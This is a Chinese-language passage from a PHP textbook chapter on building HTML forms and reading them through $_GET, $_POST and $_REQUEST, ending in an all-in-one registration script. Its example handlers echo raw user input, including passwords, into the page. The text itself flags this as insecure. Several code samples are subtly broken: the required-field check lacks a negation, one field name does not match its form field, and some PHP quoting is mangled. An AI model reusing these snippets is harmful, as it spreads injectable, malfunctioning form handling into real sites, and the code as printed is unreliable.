- 下拉菜单 —— 这允许用户从预定义的选项列表中选择单个项目。size 属性值为 1 告诉浏览器你希望列表以下拉菜单格式显示。在 select 元素内，为每个选项创建一个 option 元素。将选项标签放置在 <option> ... </option> 标签之间。每个 option 元素可以有一个可选的 value 属性，它是选择该选项时发送到服务器的值。如果不包含 value 属性，则改为发送 <option> ... </option> 标签之间的文本：

```
<label for="pullDownMenu">A pull-down menu</label>
<select name="pullDownMenu" id="pullDownMenu" size="1">
  <option value="option1">Option 1</option>
  <option value="option2">Option 2</option>
  <option value="option3">Option 3</option>
</select>
```

- 列表框 —— 其工作方式与下拉菜单完全相同，但一次显示多个选项。要将下拉菜单转换为列表框，请将 size 属性从 1 更改为要一次显示的选项数量：

```
<label for="listBox">A list box</label>
<select name="listBox" id="listBox" size="3">
  <option value="option1">Option 1</option>
  <option value="option2">Option 2</option>
  <option value="option3">Option 3</option>
</select>
```

- 多选列表框 —— 其工作方式类似于列表框，但还允许用户通过按住 Ctrl（Windows 和 Linux 浏览器）或 Command（Mac 浏览器）一次选择多个项目。要将普通列表框转换为多选框，请向 select 元素添加多选属性（值为 "multiple"）。如果用户选择多个选项，所有选定的值都将发送到服务器（你将在本章后面学习如何处理多个字段值）：

```
<label for="multiListBox">A multi-select list box</label>
<select name="multiListBox" id="multiListBox" size="3" multiple="multiple">
  <option value="option1">Option 1</option>
  <option value="option2">Option 2</option>
  <option value="option3">Option 3</option>
</select>
```

你可以通过向相关 <option> 标签添加属性 selected="selected" 来预选任何类型的 select 元素中的选项 — 例如：<option value="option1" selected="selected">。

- 文本区域字段 —— 这类似于文本输入字段，但允许用户输入多行文本。与大多数其他控件不同，你通过将文本放置在 <textarea> ... </textarea> 标签之间（而不是在 value 属性中）来指定初始值（如果有）。textarea 元素必须包含控件高度（以行为单位，rows）和宽度（以列为单位，cols）的属性：

```
<label for="textAreaField">A text area field</label>
<textarea name="textAreaField" id="textAreaField" rows="4" cols="50"></textarea>
```

一旦将控件添加到表单中，只需关闭表单元素即可：

```
</form>
```


尝试填写一些字段，然后单击“提交表单”按钮。因为`<form>`标签中的`action`属性是空字符串，浏览器会将表单数据发送回同一个URL（`web_form.html`）。显然`web_form.html`无法对表单数据做任何处理，因为它只是一个HTML网页，但很快你将编写可以处理来自表单的数据的PHP脚本。

请注意，一旦提交表单，您就可以在浏览器地址栏中看到所有表单数据，如图9-2所示。这是因为您的表单使用了`get`方法，该方法将表单数据放在URL中发送。您可以看到表单数据前面有一个`?`字符，并且每个表单字段的数据都作为名称/值对发送：

```
http://localhost/web_form.html?textField=Hello&passwordField=secret& ...
```

`get`方法可发送的数据量有限，因为URL只能包含少量字符（1,024个字符是安全上限）。如果需要从表单发送较大量的数据，请改用`post`方法：

```
<form action="myscript.php" method="post">
```

`post`方法将数据发送在发送到服务器的请求的HTTP头中，而不是将数据嵌入到URL中。这允许发送大量数据。如果用户尝试在通过`post`方法发送表单后刷新页面，浏览器通常会弹出一个对话框，询问他们是否要重新发送表单数据。

*您可以在第16章中了解更多有关HTTP头的信息。*



图9-2

## 使用PHP捕获表单数据

您现在知道如何创建HTML表单，以及表单中的数据如何发送到服务器。当数据到达服务器时，您如何编写PHP脚本来处理这些数据？

首先，表单的action属性需要包含将处理表单的PHP脚本的URL。例如：

```
<form action="form_handler.php" method="post" />
```

接下来，您当然需要创建form_handler.php脚本。当用户发送表单时，他们的数据会发送到服务器并运行form_handler.php脚本。然后脚本需要读取表单数据并采取相应操作。

要读取表单中的数据，您可以使用一些超全局变量。您在第7章中简要了解过超全局变量。超全局变量是PHP的内置变量，可在任何作用域中使用：在脚本的顶层、在函数内或在类方法内。第7章讨论了$GLOBALS超全局数组，它包含应用程序中使用的所有全局变量的列表。在这里，您将了解三个新的超全局数组：

| 超全局数组 | 描述 |
|---|---|
| `$_GET` | 包含使用get方法发送的表单的所有字段名称和值的列表 |
| `$_POST` | 包含使用post方法发送的表单的所有字段名称和值的列表 |
| `$_REQUEST` | 包含`$_GET`和`$_POST`数组合并的值，以及`$_COOKIE`超全局数组的值 |

您将在下一章中了解$_COOKIE超全局变量。

这三个超全局数组中的每一个都以字段名称作为数组键，以字段值本身作为数组值，包含发送表单中的字段。例如，假设您使用get方法创建了一个表单，并且该表单包含以下控件：

```
<input type="text" name="emailAddress" value="" />
```

然后您可以使用$_GET或$_REQUEST超全局变量访问用户输入到该表单字段的值：

```
$email = $_GET["emailAddress"];
$email = $_REQUEST["emailAddress"];
```

## 编写一个简单的表单处理程序

在此示例中，您将创建一个简单的用户注册表单，然后编写一个表单处理程序脚本，读取从表单发送的字段值并在页面上显示它们。

首先，创建注册表单。将以下HTML代码保存为文档根文件夹中的registration.html：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Membership Form</title> <link rel="stylesheet" type="text/css"
href="common.css" />
</head>
<body>
<h1>Membership Form</h1>

<p>Thanks for choosing to join The Widget Club. To register, please fill
in your details below and click Send Details.</p>

<form action="process_registration.php" method="post">
<div style="width: 30em;">
<label for="firstName">First name</label>
<input type="text" name="firstName" id="firstName" value="" />

<label for="lastName">Last name</label>
<input type="text" name="lastName" id="lastName" value="" />

<label for="password1">Choose a password</label>
<input type="password" name="password1" id="password1" value="" />
<label for="password2">Retype password</label>
<input type="password" name="password2" id="password2" value="" />

<label for="genderMale">Are you male...</label>
<input type="radio" name="gender" id="genderMale" value="M" />
<label for="genderFemale">...or female?</label>
<input type="radio" name="gender" id="genderFemale" value="F" />

<label for="favoriteWidget">What's your favorite widget?</label>
<select name="favoriteWidget" id="favoriteWidget" size="1">
<option value="superWidget">The SuperWidget</option>
<option value="megaWidget">The MegaWidget</option>
<option value="wonderWidget">The WonderWidget</option>
</select>

<label for="newsletter">Do you want to receive our newsletter?</label>
<input type="checkbox" name="newsletter" id="newsletter" value="yes" />

<label for="comments">Any comments?</label>
<textarea name="comments" id="comments" rows="4"
cols="50"> </textarea>
```

## 第三部分：在实践中使用PHP

```html
<div style="clear: both;">
	<input type="submit" name="submitButton" id="submitButton"
			value="Send Details " />
	<input type="reset" name="resetButton" id="resetButton"
			value="Reset Form" style="margin-right: 20px;" />
	</div>
</div>
</form>
</body>
</html>
```

接下来，将以下脚本保存为文档根目录（即放置registration.html的文件夹）中的process_registration.php，然后在Web浏览器中打开registration.html URL。填写表单中的字段，然后单击“发送详细信息”按钮。如果一切顺利，您应该会看到一个显示您刚刚输入的数据的页面。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
	"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
	<title>Thank You</title>
	<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
	<h1>Thank You</h1>

	<p>Thank you for registering. Here is the information you submitted:</p>

	<dl>
		<dt>First name</dt><dd><?php echo $_POST["firstName"]?></dd>
		<dt>Last name</dt><dd><?php echo $_POST["lastName"]?></dd>
		<dt>Password</dt><dd><?php echo $_POST["password"]?></dd>
		<dt>Retyped password</dt><dd><?php echo $_POST["password2"]?></dd>
		<dt>Gender</dt><dd><?php echo $_POST["gender"]?></dd>
		<dt>Favorite widget</dt><dd><?php echo $_POST["favoriteWidget"]?></dd>
		<dt>Do you want to receive our newsletter?</dt><dd><?php echo
			$_POST["newsletter"]?></dd>
		<dt>Comments</dt><dd><?php echo $_POST["comments"]?></dd>
	</dl>
</body>
</html>
```

图9-3显示了提交表单前的示例表单，图9-4显示了发送表单的结果。



图9-3



图9-4

### 工作原理

如您所见，捕获和显示提交的表单数据的过程实际上非常简单。因为表单使用post方法发送，脚本会从$_POST超全局数组中提取表单字段值，并使用echo()显示每个字段值：

```
<dt>First name</dt><dd><?php echo $_POST["firstName"] ?></dd>
<dt>Last name</dt><dd><?php echo $_POST["lastName"] ?></dd>
<dt>Password</dt><dd><?php echo $_POST["password1"] ?></dd>
<dt>Retyped password</dt><dd><?php echo $_POST["password2"] ?></dd>
<dt>Gender</dt><dd><?php echo $_POST["gender"] ?></dd>
<dt>Favorite widget</dt><dd><?php echo $_POST["favoriteWidget"] ?></dd>
<dt>Do you want to receive our newsletter?</dt><dd><?php echo $_POST["newsletter"] ?></dd>
<dt>Comments</dt><dd><?php echo $_POST["comments"] ?></dd>
```

顺便说一句，因为$_REQUEST超全局变量包含$_GET和$_POST的元素，您可以改用$_REQUEST访问表单字段值：

```
<dt>First name</dt><dd><?php echo $_REQUEST["firstName"] ?></dd>
```

一般来说，如果您知道用户数据将来自使用get或post方法的表单，最好使用$_GET或$_POST，而不是$_REQUEST。这可以减少歧义和代码中出现bug的机会，还可以消除表单字段和cookie之间冲突的任何风险；例如，可能有一个cookie与您的某个表单字段同名。

## 安全处理表单数据

尽管前面的脚本只是一个示例，并非设计用于实际应用，但指出脚本中的几个安全问题是值得的。首先，您当然不会显示用户刚刚输入的密码（尽管您可以通过电子邮件将他们的密码发送给他们以提醒他们）。

其次，通常不宜将任何用户输入的数据（例如$_GET和$_POST中的值）直接传递给echo()或print()等语句以在网页上显示。您绝对不应该信任公共网站上的用户输入；恶意用户可能试图攻入网站。不法分子向未受保护的网站提交表单数据，以获取其他用户的凭据，这相当容易。因此，您在将用户输入显示到网页之前，应始终验证（即检查）或过滤用户输入，以确保其安全。您将在第20章中了解更多有关此主题的信息。

### 处理空表单字段

process_registration.php脚本假设用户已填写表单中的所有字段。但是，用户经常忘记（或不想）填写表单中的某些字段。发生这种情况时，一些


数据不会发送到服务器。有时字段作为空字符串发送；有时根本不会发送任何字段名。下表说明了各种表单控件在未填写或未选择时的行为：

| 表单控件 | 未填写或未选择时的行为 |
| :--- | :--- |
| 文本输入字段 | 会发送字段名，以及空值。 |
| 密码字段 | 会发送字段名，以及空值。 |
| 复选框字段 | 根本不会发送任何内容。 |
| 单选按钮字段 | 根本不会发送任何内容。 |
| 提交按钮 | 如果未点击按钮，则根本不会发送任何内容。如果用户按 Enter/Return 键提交表单，也可能出现这种情况。但是，如果表单中只有一个提交按钮，大多数浏览器仍会发送按钮的字段名和值。 |
| 重置按钮 | 永远不会发送任何内容。 |
| 文件选择字段 | 会发送字段名，以及空值。 |
| 隐藏字段 | 会发送字段名，以及空值。 |
| 图像字段 | 与提交按钮的行为相同。 |
| 推送按钮 | 永远不会发送任何内容。 |
| 下拉菜单 | 无法不选择选项，因此总会发送一个值。 |
| 列表框 | 根本不会发送任何内容。 |
| 多选框 | 根本不会发送任何内容。 |
| 文本区域字段 | 会发送字段名，以及空值。 |

为什么这很重要？嗯，当某个字段根本没有发送任何内容时，PHP 不会在 $_POST、$_GET 或 $_REQUEST 数组中为该字段创建元素。因此，如果你尝试访问该元素，将会生成类似如下的 PHP 通知：

```
PHP Notice: Undefined index: gender in process_registration.php on line 18
```

此通知可能出现在服务器的错误日志中，或出现在浏览器窗口中，具体取决于你的错误报告设置。此类通知不会干扰脚本的运行；例如，在刚才所示的情况中，唯一发生的事情是向 echo() 语句传递了一个空字符串：

```
<dt>Gender</dt><dd><?php echo $_POST["gender"] ?></dd>
```

不过，最好还是编写不会生成通知的代码。这有助于确保应用程序的健壮性和安全性。这意味着，在使用已提交的表单字段之前，你应该先检查其是否存在，而不是假设它存在。你可以使用 PHP 函数（如 isset() 或 array_key_exists()）来实现这一点：

```
<dt>Gender</dt><dd><?php if ( isset( $_POST["gender"] ) ) echo $_POST["gender"]; ?></dd>
```

## 处理多值字段

你在本章前面已经学过，可以创建发送多个值（而非单个值）的表单字段。例如，以下表单字段可以向服务器发送多个值：

```
<label for="favoriteWidgets">What are your favorite widgets?</label>
<select name="favoriteWidgets" id="favoriteWidgets" size="3"
multiple="multiple">
<option value="superWidget">The SuperWidget</option>
<option value="megaWidget">The MegaWidget</option>
<option value="wonderWidget">The WonderWidget</option>
</select>
<label for="newsletterWidgetTimes">Do you want to receive our
'Widget Times' newsletter?</label>
<input type="checkbox" name="newsletter" id="newsletterWidgetTimes"
value="widgetTimes" />
<label for="newsletterFunWithWidgets">Do you want to receive our
'Fun with Widgets' newsletter?</label>
<input type="checkbox" name="newsletter" id="newsletterFunWithWidgets"
value="funWithWidgets" />
```

第一个表单字段是一个多选列表框，允许用户选择一个或多个（或不选择）选项。接下来的两个表单字段是复选框，名称相同（newsletter），但值不同（widgetTimes 和 funWithWidgets）。如果用户选中了这两个复选框，则 widgetTimes 和 funWithWidgets 这两个值都将作为 newsletter 字段名发送到服务器。

那么，如何在 PHP 脚本中处理多值字段呢？诀窍是在 HTML 表单的字段名后面添加方括号（[]）。然后，当 PHP 引擎看到提交的表单字段名以方括号结尾时，它会在 $_GET 或 $_POST（以及 $_REQUEST）超全局数组中创建一个嵌套的值数组，而不是单个值。然后，你可以从该嵌套数组中提取单个值。因此，你可以这样创建多选列表控件：

```
<select name="favoriteWidgets[]" id="favoriteWidgets" size="3"
multiple="multiple" ... </select>
```

然后，你可以按如下方式检索包含提交的字段值的数组：

```
$favoriteWidgetValuesArray = $_GET["favoriteWidgets"]; // If using get method
$favoriteWidgetValuesArray = $_POST["favoriteWidgets"]; // If using post method
```

## 试一试：带有多值字段的注册表单

以下是你之前创建的注册表单和表单处理程序，但这次表单包含一个用于“最喜欢的小部件”选择的多选列表框，以及两个复选框，允许用户订阅两个不同的通讯。表单处理程序将处理这些多值字段，并在网页中显示它们的值。

将以下表单另存为文档根目录中的 registration_multi.html：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Membership Form</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Membership Form</h1>
<p>Thanks for choosing to join The Widget Club. To register, please fill
in your details below and click Send Details.</p>
<form action="process_registration_multi.php" method="post">
<div style="width: 30em;">
<label for="firstName">First name</label>
<input type="text" name="firstName" id="firstName" value="" />
<label for="lastName">Last name</label>
<input type="text" name="lastName" id="lastName" value="" />
<label for="password1">Choose a password</label>
<input type="password" name="password1" id="password1" value="" />
<label for="password2">Retype password</label>
<input type="password" name="password2" id="password2" value="" />
<label for="genderMale">Are you male...</label>
<input type="radio" name="gender" id="genderMale" value="M" />
<label for="genderFemale">...or female</label>
<input type="radio" name="gender" id="genderFemale" value="F" />
<label for="favoriteWidgets">What are your favorite widgets?</label>
<select name="favoriteWidgets[]" id="favoriteWidgets" size="3"
multiple="multiple">
<option value="superWidget">The SuperWidget</option>
<option value="megaWidget">The MegaWidget</option>
<option value="wonderWidget">The WonderWidget</option>
</select>
<label for="newsletterWidgetTimes">Do you want to receive our
'Widget Times' newsletter?</label>
<input type="checkbox" name="newsletter[]" id="newsletterWidgetTimes"
value="widgetTimes" />
<label for="newsletterFunWithWidgets">Do you want to receive our
'Fun with Widgets' newsletter?</label>
<input type="checkbox" name="newsletter[]" id="newsletterFunWithWidgets"
value="funWithWidgets" />
<label for="comments">Any comments?</label>
<textarea name="comments" id="comments" rows="4" cols="50">
</textarea>
<div style="clear: both;">
<input type="submit" name="submitButton" id="submitButton"
value="Send Details" />
<input type="reset" name="resetButton" id="resetButton"
value="Reset Form" style="margin-right: 20px;" />
</div>
</div>
</form>
</body>
</html>
```

现在将以下脚本另存为文档根目录中的 process_registration_multi.php：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Thank You</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Thank You</h1>
<p>Thank you for registering. Here is the information you submitted:</p>
<?php
$favoriteWidgets = "";
$newsletters = "";
if ( isset( $_POST["favoriteWidgets"] ) ) {
foreach ( $_POST["favoriteWidgets"] as $widget ) {
$favoriteWidgets .= $widget . ", ";
}
}
if ( isset( $_POST["newsletter"] ) ) {
foreach ( $_POST["newsletter"] as $newsletter ) {
$newsletters .= $newsletter . ", ";
}
}
```


```
$favoriteWidgets = preg_replace( "/, $/", "", $favoriteWidgets );
$newsletters = preg_replace( "/, $/", "", $newsletters );

?>
<dl>
    <dt>First name</dt><dd><?php echo $_POST["firstName"] ?></dd>
    <dt>Last name</dt><dd><?php echo $_POST["lastName"] ?></dd>
    <dt>Password</dt><dd><?php echo $_POST["password1"] ?></dd>
    <dt>Retyped password</dt><dd><?php echo $_POST["password2"] ?></dd>
    <dt>Gender</dt><dd><?php echo $_POST["gender"] ?></dd>
    <dt>Favorite widgets</dt><dd><?php echo $favoriteWidgets ?></dd>
    <dt>You want to receive the following newsletters:</dt><dd>
    <?php echo $newsletters ?></dd>
    <dt>Comments</dt><dd><?php echo $_POST["comments"] ?></dd>
</dl>
</body>
</html>
```

如前所述，填写表单，并尝试选择几个“喜欢的小部件”选项以及两个“新闻通讯”复选框。现在提交表单。注意观察 PHP 脚本如何处理多值字段。你可以在图 9-5 中看到示例表单，并在图 9-6 中查看生成的脚本输出。



图 9-5



图 9-6

## 工作原理

Web 表单 registration_multi.html 与之前的 registration.html 页面大体相似。但是，此表单包含一个多选列表框（favoriteWidgets）和两个名称相同的复选框（newsletter）。由于这些控件能够发送多个值，因此两个空方括号（[]）被附加到字段名：

```
<label for="favoriteWidgets">What are your favorite widgets?</label>
<select name="favoriteWidgets[]" id="favoriteWidgets" size="3"
multiple="multiple">
<option value="superWidget">The SuperWidget</option>
<option value="megaWidget">The MegaWidget</option>
<option value="wonderWidget">The WonderWidget</option>
</select>

<label for="newsletterWidgetTimes">Do you want to receive our
'Widget Times' newsletter?</label>
<input type="checkbox" name="newsletter[]" id="newsletterWidgetTimes"
value="widgetTimes" />
<label for="newsletterFunWithWidgets">Do you want to receive our
'Fun with Widgets' newsletter?</label>
<input type="checkbox" name="newsletter[]" id="newsletterFunWithWidgets" value="funWithWidgets" />
```

方括号告诉 PHP 引擎预期这些字段会有多个值，并在相关的超全局数组（本例中为 $_POST 和 $_REQUEST）中创建相应的嵌套数组。

表单处理程序 process_registration_multi.php 在页面中显示用户提交的表单数据。由于大多数字段只包含一个值，因此只需使用 echo() 语句显示相关的 $_POST 值即可。

然而，对于多值字段，脚本需要更智能一些。首先，它会创建两个空字符串变量来存放要显示的字段值列表：

```
$favoriteWidgets = "";
$newsletters = "";
```

接下来，对于 favoriteWidgets 字段，脚本会检查相应的 $_POST 数组元素（$_POST["favoriteWidgets"]）是否存在。（请记住，对于某些未选中的表单控件，例如多选列表和复选框，PHP 不会创建相应的 $_POST/$_GET/$_REQUEST 数组元素。）如果 $_POST["favoriteWidgets"] 数组元素存在，脚本将遍历嵌套数组中的每个数组元素，将其值连接到 $favoriteWidgets 字符串的末尾，并附加逗号和空格以分隔值：

```
if ( isset( $_POST["favoriteWidgets"] ) ) {
    foreach ( $_POST["favoriteWidgets"] as $widget ) {
        $favoriteWidgets .= $widget . ", ";
    }
}
```

然后脚本对 newsletter 字段重复此过程：

```
if ( isset( $_POST["newsletter"] ) ) {
    foreach ( $_POST["newsletter"] as $newsletter ) {
        $newsletters .= $newsletter . ", ";
    }
}
```

如果为这些字段发送了任何字段值，则生成的字符串末尾现在会有一个多余的逗号和空格，因此脚本使用正则表达式删除这两个字符，以整理字符串：

```
$favoriteWidgets = preg_replace( "/, $/", "", $favoriteWidgets );
$newsletters = preg_replace( "/, $/", "", $newsletters );
```

有关正则表达式的更多信息，请参阅第 18 章。

现在只需在 Web 页面中输出这两个字符串，以及其他单值字段即可：

```
<dl>
    <dt>First name</dt><dd><?php echo $_POST["firstName"] ?></dd>
    <dt>Last name</dt><dd><?php echo $_POST["lastName"] ?></dd>
    <dt>Password</dt><dd><?php echo $_POST["password1"] ?></dd>
    <dt>Retyped password</dt><dd><?php echo $_POST["password2"] ?></dd>
    <dt>Gender</dt><dd><?php echo $_POST["gender"] ?></dd>
    <dt>Favorite widgets</dt><dd><?php echo $favoriteWidgets ?></dd>
    <dt>You want to receive the following newsletters:</dt><dd><?php echo $newsletters ?></dd>
    <dt>Comments</dt><dd><?php echo $_POST["comments"] ?></dd>
</dl>
```

## 使用 PHP 生成 Web 表单

迄今为止，您创建的表单都嵌入在静态 HTML 页面中。但是，由于 PHP 脚本可以包含并输出 HTML，因此将表单和表单处理程序合并在一个 PHP 文件中是完全可行的。这样做有几个优点。首先，如果用户没有正确填写表单，您可以向他们重新显示表单，以便他们更正错误。其次，由于表单是在 PHP 脚本中创建的，您可以在脚本运行时动态设置表单的各个部分，为您的表单增加了很多灵活性和功能。

与生成任何 HTML 标记一样，在 PHP 中生成表单有两种常用方法：您可以使用 echo 或 print 语句输出表单的标记，也可以使用 `<?php` 和 `?>` 标签将 PHP 代码与表单标记分开。您还可以在同一脚本中混合使用这两种技术。

## 尝试使用 PHP 创建交互式表单

下面的这个一体化 PHP 脚本完成以下操作：

- 它为用户显示一个注册表单以供填写。某些字段是必填的；这些字段在表单中标记了星号。其余字段是可选的
- 发送表单时，脚本会检查必填字段是否已填写
- 如果所有必填字段都已填写，脚本会显示一条感谢消息
- 如果缺少一个或多个必填字段，脚本会带有错误消息地重新显示表单，并突出显示仍需填写的字段。脚本会记住用户已经填写的字段，并在新表单中预填这些字段

要试用该脚本，请先将以下代码另存为文档根目录中的 registration.php：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Membership Form</title>
<link rel="stylesheet" type="text/css" href="common.css" />
<style type="text/css">
.error { background: #d33; color: white; padding: 0.2em; }
</style>
</head>
<body>

<?php
if ( isset( $_POST["submitButton"] ) ) {
    processForm();
} else {
    displayForm( array() );
}

function validateField( $fieldName, $missingFields ) {
    if ( in_array( $fieldName, $missingFields ) ) {
        echo ' class="error"';
    }
}

function setValue( $fieldName ) {
    if ( isset( $_POST[$fieldName] ) ) {
        echo $_POST[$fieldName];
    }
}

function setChecked( $fieldName, $fieldValue ) {
    if ( isset( $_POST[$fieldName] ) and $_POST[$fieldName] == $fieldValue ) {
        echo ' checked="checked"';
    }
}

function setSelected( $fieldName, $fieldValue ) {
    if ( isset( $_POST[$fieldName] ) and $_POST[$fieldName] == $fieldValue ) {
        echo ' selected="selected"';
    }
}

function processForm() {
    $requiredFields = array( "firstName", "lastName", "password1",
        "password2", "gender" );
    $missingFields = array();

    foreach ( $requiredFields as $requiredField ) {
        if ( !isset( $_POST[$requiredField] ) or $_POST[$requiredField] ) {
            $missingFields[] = $requiredField;
        }
    }

    if ( $missingFields ) {
        displayForm( $missingFields );
    } else {
        displayThanks();
    }
}
```


```php
function displayForm( $missingFields ) {
?>
<h1>Membership Form</h1>

<?php if ( $missingFields ) { ?>
<p class="error">There were some problems with the form you submitted.
Please complete the fields highlighted below and click Send Details to
resend the form.</p>
<?php } else { ?>
<p>Thanks for choosing to join The Widget Club. To register, please
fill in your details below and click Send Details. Fields marked with an
asterisk (*) are required.</p>
<?php } ?>

<form action="registration.php" method="post">
<div style="width: 30em;">

<label for="firstName"<?php validateField( "firstName",
$missingFields ) ?>>First name *</label>
<input type="text" name="firstName" id="firstName"
value="<?php setValue( "firstName" ) ?>" />

<label for="lastName"<?php validateField( "lastName",
$missingFields ) ?>>Last name *</label>
<input type="text" name="lastName" id="lastName" value=
"<?php setValue( "lastName" ) ?>" />

<label for="password1"<?php if ( $missingFields ) echo
' class="error" ?>>>Choose a password *</label>
<input type="password" name="password1" id="password1" value="" />
<label for="password2"<?php if ( $missingFields ) echo
' class="error" ?>>>Retype password *</label>
<input type="password" name="password2" id="password2" value="" />

<label><?php validateField( "gender", $missingFields ) ?>>Your
gender: *</label>
<label for="genderMale">Male</label>
<input type="radio" name="gender" id="genderMale" value=
"M"<?php setChecked( "gender", "M" )?> />
<label for="genderFemale">Female</label>
<input type="radio" name="gender" id="genderFemale" value=
"F"<?php setChecked( "gender", "F" )?> />

<label for="favoriteWidget">What's your favorite widget? </label>
<select name="favoriteWidget" id="favoriteWidget" size="1">
<option value="superWidget"<?php setSelected( "favoriteWidget",
"superWidget" ) ?>>The SuperWidget</option>
```

```php
